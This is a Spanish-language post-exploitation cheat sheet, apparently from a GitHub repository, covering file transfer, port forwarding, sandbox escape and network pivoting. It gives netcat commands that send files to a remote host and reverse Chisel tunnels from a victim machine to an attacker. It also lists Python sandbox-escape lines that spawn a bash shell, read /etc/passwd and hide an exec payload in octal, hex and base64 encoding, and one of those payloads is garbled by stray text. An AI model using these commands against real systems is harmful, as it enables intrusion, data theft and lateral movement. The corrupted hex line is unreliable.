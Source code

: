 # Postexplotacion

1. [Escalado de privilegios]
	* [Linux]
	* [Windows]
1. [Transferencia de archivos]
1. [Port Forwarding]
1. [Saltando sandbox]
1. [Meterpreter]
1. [Pivoteando]




## Escalado de privilegios
	* [Linux]
	* [Windows]

## Transferencia de archivos

### Netcat

```bash
#envio archivo
nc x.x.x.x port < file.txt
#recibo archivo
nc -lvnp port > file.txt
```

## Port Forwarding

Para mandar un servicio que esta corriendo solo para el host local, hacia hosts remotos (o red local a red externa). Tambien puede servir para servicios que necesitan de GUI y no se pueden levantar desde una shell

### SSH

```bash
ssh -R remotePort:localhost:localPort x.x.x.x
```

### Chisel

```bash
#atacante
$chisel server -p 9999 --reverse
#victima
$chisel client IPAtacante:9999 R:RPort:127.0.0.1:LPort
```

## Saltando sandbox

### Python

#### OS Command execution

```bash
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')
```

#### Octal

```bash
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```

#### Hexa
```bash
exec("\x5f\x5f\x69\x6d\xIf youca70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

#### b64

```bash
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #
```

Py2
```bash
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```

## Meterpreter

	* [Meterpreter]

## Pivoteando

### Meterpreter

```bash
>run autoroute -s IP_red_victima/MASK

#sshutle
```

### General

```
1) transferir Chisel a la maquina victima

2) en maquina atacante
$./chisel server -p 1337 --reverse

3) en maquina victima
$./chisel client 192.168.1.1:1337 R:socks #linux
>chisel.exe client 192.168.1.1:1337 R:socks #windows

4) si todo correcto en maquina atacante recibimos
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

5) agregamos esta linea al /etc/proxychains.conf
socks5 127.0.0.1 1080 #el puerto de 4

6) tiramos comandos a traves de proxychains
#ejemplo
$proxychains nmap -sS IP_victima2
```
